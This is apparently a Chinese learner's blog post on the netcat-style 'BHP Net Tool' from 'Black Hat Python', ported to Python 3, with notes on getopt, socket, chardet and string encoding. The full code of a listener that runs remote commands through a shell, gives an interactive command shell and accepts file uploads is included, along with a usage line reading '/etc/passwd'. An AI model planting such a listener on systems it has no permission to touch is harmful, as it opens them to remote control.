




# 前言
Python 学了一年了，想进一步提升自己的编程能力。就去看了 Justin Seitz 的《Python 黑帽子》，对 Python 又有了新的认识，准备深研读这本书。
# 正文
本来想自己改进一下书上写的代码，网上冲浪时发现已经有人早就写了。附上 https://blog.csdn.net/qq_40549070/article/details/108193537
# 代码
import sys | |
import getopt | |
import threading | |
import chardet | |
import subprocess | |
import socket | |
# 定义一些全局变量 | |
listen = False | |
command = False | |
execute = "" | |
upload_destination = "" | |
target = "" | |
port = 0 | |
def usage(): | |
print("BHP Net Tool") | |
print("Usage: bhpnet.py -t target_host -p port") | |
print("-l --listen -listen on [host]:[port] for incoming connections") | |
print("-e --execute=file_to_run -execute the given file upon receiving a connection") | |
print("-c --command -initialize a command shell") | |
print("-u --upload=destination -upon receiving connection upload a file and write to [destination]") | |
print("Examples:") | |
print("bhpnet.py -t 192.168.0.1 -p 5555 -l -c") | |
print("bhpnet.py -t 192.168.0.1 -p 5555 -l -u=c:\\target.exe") | |
print("bhpnet.py -t 192.168.0.1 -p 5555 -l -e=\"cat /etc/passwd\"") | |
print("echo 'ABCDEFGHI' | ./bhpnet.py -t 192.168.11.12 -p 135") | |
sys.exit(0) | |
def main(): | |
global listen, command, execute, upload_destination, target, port | |
if not len(sys.argv[1:]): | |
usage() | |
# 读取命令行选项 | |
try: | |
opts, args = getopt.getopt(sys.argv[1:], "hle:t:p:cu:", ["help", "listen", "execute=", "target=", "port=", "command", "upload="]) | |
except getopt.GetoptError as err: | |
print(str(err)) | |
usage() | |
for o, a in opts: | |
if o in ('-h', "--help"): | |
usage() | |
elif o in ("-l", "--listen"): | |
listen = True | |
elif o in ("-e", "--execute"): | |
execute = a | |
elif o in ("-t", "--target"): | |
target = a | |
elif o in ("-p", "--port"): | |
port = int(a) | |
elif o in ("-c", "--command"): | |
command = True | |
elif o in ("-u", "--upload"): | |
upload_destination = a | |
else: | |
assert False, "Unhandled Option" | |
# 我们是进行监听还是仅从标准输入发送数据？ | |
if not listen and len(target) and port > 0: | |
# 从命令行读取内存数据 | |
# 这里将阻塞，所以不在向标准输入发送数据时发送 ctrl-D | |
buffer = sys.stdin.read() | |
# 发送数据 | |
client_sender(buffer) | |
# 我们开始监听并准备上传文件、执行命令 | |
# 放置一个反弹 shell | |
# 取决于上面得命令行选项 | |
if listen: | |
server_loop() | |
def server_loop(): | |
global target | |
# 如果没有定义目标，那么我们监听所有接口 | |
if not len(target): | |
target = "0.0.0.0" | |
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
server.bind((target, port)) | |
server.listen(5) | |
while True: | |
client_socket, addr = server.accept() | |
# 分析一个线程处理新的客户端 | |
client_thread = threading.Thread(target=client_handler, args=(client_socket, )) | |
client_thread.start() | |
def client_sender(buffer): | |
# 连接到目标主机 | |
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
try: | |
client.connect((target, port)) | |
if len(buffer): | |
client.send(buffer.encode('utf-8')) | |
while True: | |
# 现在等待数据回传 | |
recv_len = 1 | |
response = "" | |
while recv_len: | |
data = client.recv(4096).decode('utf-8') | |
recv_len = len(data) | |
response += data | |
if recv_len < 4096: | |
break | |
print(response) | |
# 等待更多输入 | |
# 这里 python2 使用的是 raw_input ()，在 python3 中取消了此函数，input () 可以起到相同的作用 | |
buffer = input("") | |
buffer += '\n' | |
# 发送数据 | |
client.send(buffer.encode('utf-8')) | |
except: | |
print("[*] Exception! Exiting.") | |
# 关闭连接 | |
client.close() | |
def run_command(command): | |
# 处理多余得空格和换行符 | |
command = command.rstrip() | |
try: | |
# 先解码，再执行命令 | |
command = command.decode('utf-8') | |
# 运行命令并将输出返回 | |
output = subprocess.check_output(command, stderr=subprocess.STDOUT, shell=True) | |
# 这里所返回的命令结果都是以系统 shell 默认编码的形式返回。 | |
except: | |
output = b"Failed to execute command.\r\n" | |
# 将输出发送 | |
return output | |
def client_handler(client_socket): | |
# 检测上传文件 | |
if len(upload_destination): | |
# 读取所有都字符并写下目标 | |
file_buffer = "" | |
# 持续读取数据直到没有符合得数据 | |
while True: | |
data = client_socket.recv(1024).decode('utf-8') | |
if not data: | |
break | |
else: | |
file_buffer += data | |
# 现在我们接受这些数据并将他们写出来 | |
try: | |
with open(upload_destination, "wb") as file_descriptor: | |
file_descriptor.write(file_buffer) | |
client_socket.send(str.encode('Successfully saved file to %s' % upload_destination)) | |
except: | |
client_socket.send(str.encode('Failed saved file to %s' % upload_destination)) | |
# 检查执行命令 | |
if len(execute): | |
output = run_command(execute) | |
client_socket.send(output.encode('utf-8')) | |
# 如果需要一个命令行 shell，那么我们进入另一个循环 | |
if command: | |
while True: | |
# 跳出一个窗口 | |
client_socket.send(b'<BHP:#>') | |
cmd_buffer = "" | |
cmd_buffer = str.encode(cmd_buffer) | |
# 现在我们接收文件直到发现换行符 | |
while '\n' not in cmd_buffer.decode('utf-8'): | |
cmd_buffer += client_socket.recv(1024) | |
# 返还命令输出 | |
response = run_command(cmd_buffer) | |
# 这里使用 detect 函数进行判断字节编码，并按照结果进行解码。 | |
btype = chardet.detect(response) | |
if btype['encoding'] == 'GB2312': | |
response = response.decode('gbk') | |
response = str.encode(response) | |
# 发送响应数据 | |
client_socket.send(response) | |
if __name__ == '__main__': | |
main() |
# 前提学习
没有用过 getopt 库（可之前学了 optparse 库，optparse 也能实现这个功能），于是就去学 getopt 库
# getopt 库学习
getopt 是一个命令行选项解析器。
getopt 的函数之一：
getopt.getopt(args, shortopts, longopts=[])
args 为要解析的参数列表，不包含 argv [0]，即：文件名。
shortopts 为脚本所要识别的字母选项，如：-h
longopts 为一个被支持的长选项名称组成的列表，如：--help
关于 shortopts：
shortopts 是一个字母；
它可以写成纯字符：o，也可以写成带一个 - 的形式：-o。
如果某一个选项后面有参数，那么它的后面就会带一个冒号：o: 或者 - o:。
当有好几个短操作参数时，可以直接写到一起：'abcd' 或者 '-abcd' 或者 '-ab-c-d'，可随意组合。
import getopt | |
parses = "-c -p 3306 -h 192.168.1.1 a1 a2".split() | |
optlist, args = getopt.getopt(parses, 'cp:h:') | |
输出 | |
''' | |
>>> optlist | |
[('-c', ''), ('-p', '3306'), ('-h', '192.168.1.1')] | |
>>> args | |
['a1', 'a2'] | |
''' |
关于 longopts:
longopts 必须写在 [] 中，且放在一对单引号中：['--help']
如果想承接参数，则要在后面加一个 =：['--help=']
longopts 必须用逗号隔开，且每个都在一对单引号中
使用长选项名的例子： | |
>>> import getopt | |
>>> s = '--condition=foo --testing --output-file abc.def -x a1 a2' | |
>>> args = s.split() | |
>>> args | |
['--condition=foo', '--testing', '--output-file', 'abc.def', '-x', 'a1', 'a2'] | |
>>> optlist, args = getopt.getopt(args, 'x', ['conditions=', 'output-file=', 'testing']) | |
>>> optlist | |
[('--conditions', 'foo'), ('--testing', ''), ('--output-file', 'abc.def'), ('-x', '')] | |
>>> args | |
['a1', 'a2'] |
#options 存的是短格式和长格式
#args 存的是除短格式和长格式之外的，也就是存没有 - 和 -- 的
# socket 库
再复习一下怎么建立 TCP 通信
# 创建一个 TCP client 端的流程
- 创建套接字
- client_s = socket.socket (socket.AF_INET, socket.SOCK_STREAM, 0) 协议号可以省略
- 建立连接
- client_s.connect((ip, port))
- 接收数据或者发送数据
- client_s.recv (bufsize) 接收数据，数据以 bytes 类型返回，bufsize 指定要接收的最大数据量。
- client_s.send () 发送数据。返回值是要发送的字节数量。
- client_s.sendall () 完整发送数据。将数据发送到连接的套接字，但在返回之前会尝试发送所有数据。成功返回 None，失败则抛出异常。
- 关闭连接
- client_s.close()
# 创建一个 TCP server 端的流程
- 创建套接字 server_s = socket.socket (socket.AF_INET, socket.SOCK_STREAM, 0)
- 把套接字绑定到本地 IP 与端口 server_s.bind ((IP, port))
- 设置最大连接数量 server_s.listen (5) 设置你想设置的数字
- 等待连接
- server_s.accept () 被动接受客户端连接，(阻塞式) 等待连接的到来，并返回（conn,address）二元元组，其中 conn 是一个通信对象，可以用来接收和发送数据。address 是连接客户端的地址。
- 接收数据或者发送数据
- 注意事项：
- Python3 以后，socket 传递的都是 bytes 类型的数据，字符串需要先转换一下，string.encode () 即可；另一端接收到的 bytes 数据想转换成字符串，只要 bytes.decode () 一下就可以。
- 在正常通信时，accept () 和 recv () 方法都是阻塞的。所谓的阻塞，指的是程序会暂停在那，一直等到有数据过来。
- 注意事项：
- 关闭连接
- server_s.close()
# chardet 库
网上冲浪找到廖雪峰老师的博客 https://www.liaoxuefeng.com/wiki/1016959663602400/1183255880134144
字符串编码一直是令人非常头疼的问题，尤其是我们在处理一些不规范的第三方网页的时候。虽然 Python 提供了 Unicode 表示的 str 和 bytes 两种数据类型，并且可以通过 encode () 和 decode () 方法转换，但是，在不知道编码的情况下，对 bytes 做 decode () 不好做。
对于未知编码的 bytes，要把它转换成 str，需要先 “猜测” 编码。猜测的方式是先收集各种编码的特征字符，根据特征字符判断，就能有很大概率 “猜对”。
当然，我们肯定不能从头自己写这个检测编码的功能，这样做费时费力。chardet 这个第三方库正好就派上了用场。用它来检测编码，简单易用。
# 使用 chardet
chardet 的使用非常简单，主模块里面只有一个函数 detect。detect 有一个参数，要求是 bytes 类型。bytes 类型可以通过读取网页内容、open 函数的 rb 模式、带 b 前缀的字符串、encode 函数等途径获得。
当我们拿到一个 bytes 时，就可以对其检测编码。用 chardet 检测编码，只需要一行代码：
>>> chardet.detect(b'Hello, world!') | |
{'encoding': 'ascii', 'confidence': 1.0, 'language': ''} |
检测出的编码是 ascii，注意到还有个 confidence 字段，表示检测的概率是 1.0（即 100%）。
我们来试试检测 GBK 编码的中文：
>>> data = '离离原上草，一岁一枯荣'.encode('gbk') | |
>>> chardet.detect(data) | |
{'encoding': 'GB2312', 'confidence': 0.7407407407407407, 'language': 'Chinese'} |
检测的编码是 GB2312，注意到 GBK 是 GB2312 的超集，两者是同一种编码，检测正确的概率是 74%，language 字段指出的语言是 'Chinese'。
# decode 与 encode 的区别
这两个函数，一直感觉理解的有些模糊，今天深入研究一下
2020 年 12 月 3 日 14:32:14
encode：编码
decode：解码
python内部编码方式为unicode，decode将其他编码方式转换成unicode编码方式，encode将unicode转换成其他编码方式。
因此unicode相当于一个中转:
(1)decode->unicode->encode
(2)encode->unicode->decode
字符串在 Python 内部的表示是 unicode 编码，因此，在做编码转换时，通常需要以 unicode 作为中间编码，即先将其他编码的字符串解码（decode）成 unicode，再从 unicode 编码（encode）成另一种编码。
decode 的作用是将其他编码的字符串转换成 unicode 编码，如 str1.decode ('gb2312')，表示将 gb2312 编码的字符串 str1 转换成 unicode 编码。
encode 的作用是将 unicode 编码转换成其他编码的字符串，如 str2.encode ('gb2312')，表示将 unicode 编码的字符串 str2 转换成 gb2312 编码。
# 代码详解
这里需要特别注意编码问题，这里引入了个第三方库 chardet 用于解决此类问题，在 linux 系统中默认编码为 utf-8，在 windows 系统中默认编码为 gbk。
usage (): 用于帮助理解程序的作用以及用法。
server_loop (): 服务端主循环，用于接受客户端连接，返还客户端套接字。
client_sender ()：用于连接服务端，首先检测是否已经从标准输入中接收数据，如果一切正常，就将数据发送给远程的目标主机并接受回传数据，知道没有更多的数据发送回来，然后再等待用户的下一步输入，并继续发送和接受数据，直到用户结束程序。
run_command (): 提供与客户端交互的方法，通过连接将命令结果回传到客户端。
client_handler (): 提供上传文件，执行命令，反弹 shell 的功能。鸽一段时间
2020 年 12 月 2 日 22:56:23
没搞完，有时间在搞，非常喜欢用代码去实现一些东西，哎我应该学开发的。。。
要一心搞 web 安全了。
下图是在 linux 与 windows 上进行程序测试
图一
图二
图三
图四
# 总结
学习到了制作 Unix 和 Linux 风格这种的后面接选项的工具。通过设置全局变量来达到不同的功能，这种编程思想开拓了我的眼界。